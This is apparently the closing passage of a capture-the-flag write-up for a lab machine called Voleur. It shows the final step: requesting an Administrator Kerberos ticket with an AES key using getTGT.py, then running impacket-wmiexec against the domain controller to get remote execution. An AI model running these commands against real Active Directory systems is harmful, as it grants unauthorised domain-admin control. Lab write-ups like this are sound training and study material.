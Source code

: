 ![w](/assets/img/attachments/voleur-22.png)
Get a TGT
```bash
getTGT.py voleur.htb/Administrator -aesKey hash -dc-ip 10.10.11.76
KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass voleur.htb/Administrator@dc.voleur.htb -debug
```
![w](/assets/img/attachments/voleur-23.png)
Finally rooted!
See u in a new writeup.
Note: If you have problem with synchronization use -debug, and it will show u DC time